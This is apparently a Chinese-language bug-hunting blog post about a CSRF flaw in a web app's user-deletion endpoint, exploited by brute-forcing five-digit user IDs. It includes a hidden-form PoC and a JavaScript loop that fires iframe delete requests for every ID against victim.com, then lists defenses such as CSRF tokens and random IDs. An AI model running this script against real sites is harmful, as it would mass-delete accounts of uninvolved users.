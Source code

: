 ```yaml
---
date: 2025-08-06T05:07:27+08:00
title: 通过CSRF暴力破解用户ID实现批量删除用户攻击
tags: [网络安全, CSRF攻击, 漏洞挖掘]
authors: qife
description: 本文详细描述了如何利用CSRF漏洞结合用户ID暴力破解技术，在缺乏CSRF防护的系统中实现批量删除用户账户的攻击过程，包含具体的技术实现细节和防御方案。
---
```


# 通过CSRF暴力破解用户ID删除所有用户

在测试某应用时发现"删除用户"模块未实施CSRF防护。攻击者只需构造恶意表单诱使管理员点击，即可任意删除用户账户。

## 基础CSRF攻击验证
删除请求中未包含CSRF令牌，典型PoC如下：
```html
<form action="https://victim.com/delete" method="POST">
  <input type="hidden" name="userid" value="12345">
</form>
```

## 用户ID暴力破解挑战
系统使用5位数字作为用户ID，但未在任何端点泄露ID信息。受[PwnDizzle的博客](https://pwndizzle.blogspot.in)启发，尝试通过点击劫持暴力破解ID。

## 技术突破点
1. **X-Frame-Options限制**：应用设置了X-Frame-Options头，阻止iframe加载
2. **Origin验证**：XMLHttpRequest因服务端校验Origin头而失效
3. **最终方案**：通过iframe靶向提交请求（虽无法读取响应，但请求可成功发送）

## 攻击脚本实现
编写CSRF脚本自动遍历所有可能的用户ID，当管理员触发时即可删除所有现存用户：
```javascript
// 示例代码：批量发送删除请求
for(let i=10000; i<=99999; i++){
  let iframe = document.createElement('iframe');
  iframe.src = `https://victim.com/delete?userid=${i}`;
  document.body.appendChild(iframe);
}
```

## 防御建议
1. 实施CSRF令牌机制
2. 使用随机UUID替代连续数字ID
3. 关键操作需二次认证
4. 设置速率限制防止暴力破解

该漏洞演示了当CSRF防护缺失时，结合其他弱点可能造成的灾难性后果。